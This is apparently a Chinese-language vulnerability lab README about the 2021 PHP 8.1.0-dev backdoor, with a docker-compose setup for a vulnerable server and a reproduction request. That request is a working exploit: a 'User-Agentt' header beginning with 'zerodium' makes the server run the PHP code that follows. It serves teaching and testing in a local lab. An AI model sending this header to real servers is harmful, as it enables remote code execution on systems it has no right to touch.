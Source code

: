 # PHP 8.1.0-dev 开发版本后门事件

PHP 8.1.0-dev 版本在2021年3月28日被植入后门，但是后门很快被发现并清除。当服务器存在该后门时，攻击者可以通过发送**User-Agentt**头来执行任意代码。

参考链接：

- https://news-web.php.net/php.internals/113838
- https://github.com/php/php-src/commit/c730aa26bd52829a49f2ad284b181b7e82a68d7d
- https://github.com/php/php-src/commit/2b0f239b211c7544ebc7a4cd2c977a5b7a11ed8a

## 漏洞环境

执行如下命令启动一个存在后门的PHP 8.1服务器：

```
docker-compose up -d
```

环境启动后，服务运行在`http://your-ip:8080`。

## 漏洞复现

发送如下数据包，可见代码`var_dump(233*233);`成功执行：

```
GET / HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
User-Agentt: zerodiumvar_dump(233*233);
Connection: close


```

![](1.png)